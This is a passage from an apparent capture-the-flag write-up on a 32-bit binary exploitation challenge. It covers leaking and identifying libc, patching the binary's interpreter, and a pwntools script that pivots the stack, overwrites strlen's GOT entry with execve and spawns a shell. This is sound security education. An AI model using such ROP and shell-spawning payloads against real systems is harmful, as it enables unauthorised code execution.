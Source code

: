 ![leak](/assets/holygrail/leak.png)

We can use an online libc finder with our leak. ([https://libc.blukat.me/](https://libc.blukat.me/))

![libc_search](/assets/holygrail/libc_search.png)

Luckily, there were only a few and I guessed it on my first try (libc6-i386_2.28-10_amd64). I started with this one because glibc 2.28 was used in Ubuntu 18.04, which we know the binary was compiled from through looking at the strings in the binary.

With the libc, I used ctfmate [https://github.com/X3eRo0/CTFMate](https://github.com/X3eRo0/CTFMate) to grab the correct interpreter and then used patchelf [https://github.com/NixOS/patchelf](https://github.com/NixOS/patchelf) to patch the binary to use the correct interpreter and libc. Note: I only needed to grab the correct interpreter so I could debug locally and run the binary in the same enviornment as remote.

With the leak, I overwrite `strlen` with `execve` and then call `strlen("/bin/bash",0,0)` to actually spawn a shell.

Debugging the following code, we can see we overwrite strlen on GOT to point to execve.
```python
rop = ROP(elf)
leave_ret = rop.find_gadget(['leave','ret'])[0]
read = elf.plt['read']
add_eax = bv.find_next_data(bv.start,b"\x03\x02\x7a")
jmp_eax = bv.find_next_data(bv.start,b"\xff\xe0")
pop_3 = rop.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# pivot to bss
payload  = b"A"*(size-4)
payload += p32(elf.bss()) #ebp
payload += p32(read)
payload += p32(leave_ret)
payload += p32(0)
payload += p32(elf.bss(4))
payload += p32(elf.got['read'])

io.send(payload)
io.interactive()
```